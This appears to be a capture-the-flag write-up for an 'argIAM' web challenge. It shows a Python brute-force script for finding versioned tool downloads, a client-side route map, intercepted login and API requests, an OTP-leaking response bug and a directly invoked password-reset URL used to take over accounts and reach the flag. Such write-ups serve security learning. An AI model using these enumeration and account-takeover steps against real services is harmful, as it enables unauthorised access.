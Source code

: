 First, we bruteforced through /hacker route to find the docs folder.
    (although this could have been found by looking at sources from hacker/insider.)

Then, we noticed that argIAM credential helper was inside parantheses:
>Note: As of 03/02/2024, password resets have been delegated from the IT Team to the corresponding department manager
>due to lay-offs. You may do this with the argIAM Credential Helper (**argIAMCredentialHelper**). This requires your
>physical PIN. Never share this, and keep it on paper!

Then later at the document we also came across this snippet:
>Q: What do I do when an application doesn’t work anymore?

>We keep updating our tools for the very best security compliance.
>Just re-download the tool from **/insider/ops/dl/<name>/v<exe version>.zip**. The password is the year when the company was founded.

We tried multiple versions but through bruteforce, we came across 2 valid zips:

```py
import requests

BASE_URL = "http://olivia.memetrolls.net:2510/insider/ops/dl/argIAMCredentialHelper/v%VERSION%.zip"

for i in range(1000, 10000):
    url = BASE_URL.replace("%VERSION%", ".".join(str(i)))
    print(f"trying version {i}... {url}")
    response = requests.head(url)
    if response.status_code == 200:
        print(f"Found version {i}")
    else:
        print(f"skipping version {i}...")
```

Those being v1.0.0.0 (which had the gato) and v1.0.1.0 (which actually had the tool)

But before finding the credential helper, We checked the logs for insider first. We noticed that the user `monitor@arg.iam` had parantheses next to it, indicating it was some kind of hash.

We then checked the sources for insider to find multiple routes at http://olivia.memetrolls.net:2510/_app/immutable/entry/app.c52c6c1e.js:

```js
de = {
    "/": [4],
    "/(hacker)/hacker": [5],
    "/(hacker)/hacker/admin": [6],
    "/(hacker)/hacker/admin/Enterprise_Applications": [7],
    "/(hacker)/hacker/admin/Enterprise_Applications/xeon": [8, [2]],
    "/(hacker)/hacker/admin/Enterprise_Applications/xeon/login": [9, [2]],
    "/(hacker)/hacker/docs": [10],
    "/(insider)/insider": [11],
    "/(insider)/insider/ops": [12, [3]],
    "/(insider)/insider/ops/bandera": [13, [3]],
    "/(insider)/insider/ops/login": [14, [3]],
    "/(insider)/insider/ops/monitoring": [15, [3]],
    "/(insider)/insider/ops/wechat": [16, [3]]
}
```

After discovering the XeonDB route (hacker/admin/Enterprise_Applications/xeon/login), we successfully logged in by intercepting the /api/ea_xeondb/login route with the credentials from logs:

```
POST /api/ea_xeondb/login HTTP/1.0
Host: olivia.memetrolls.net
Content-Type: application/json
Content-Length: 80

{"username":"monitor@arg.iam","password":"REDACTED"}
```

We then noticed the entry for "qiulin.feng@arg.iam", but the OTP key was redacted. After messing around a while, we noticed that when we updated editted the status, OTP gets revealed when the POST request returns:

```
POST /api/ea_xeondb/entries HTTP/1.1
...

{"id":"0","status":"aa","method":"INSERT"}


HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
content-type: text/plain;charset=UTF-8
Date: Mon, 12 Feb 2024 17:15:37 GMT
Connection: close
Content-Length: 125

{"id":0,"otp":"REDACTED","user":"qiulin.feng@arg.iam","timestamp":0,"sn":0,"status":"aa"}
```

After getting the OTP code, we finally managed to find the credential manager and found out that there was a manager password. To get it: (timing part lazy to rewrite)

>just pure guess
>i just did simple division for Math.power(array.length, array.length)
>which is 5 to the power of 5
>3125
>division until you get perfect number with no decimal
>5x5x5x5x5 fits perfectly

But the app itself doesn't make the request to the correct place, so we had to invoke the URL ourselves by looking at the disassembly.:
http://olivia.memetrolls.net:2510/insider/iamcredhelper/reset?u=qiulin.feng@arg.iam&y=REDACTED&m=55555

After resetting the password, we logged in to the insider panel and logged in to BANDERA. After clicking "Export to XeonDB", we turned back to XeonDB panel to find a new entry.
`{"id":1,"otp":"[REDACTED]","user":"bandera@arg.iam","sn":0,"status":"OK","timestamp":1707756676118}`

Using the same trick as the qiulin.feng@arg.iam OTP key, we finally get the flag:
`{"id":1,"otp":"argIAM{REDACTED}","user":"bandera@arg.iam","sn":0,"status":"OK","timestamp":1707756676118}`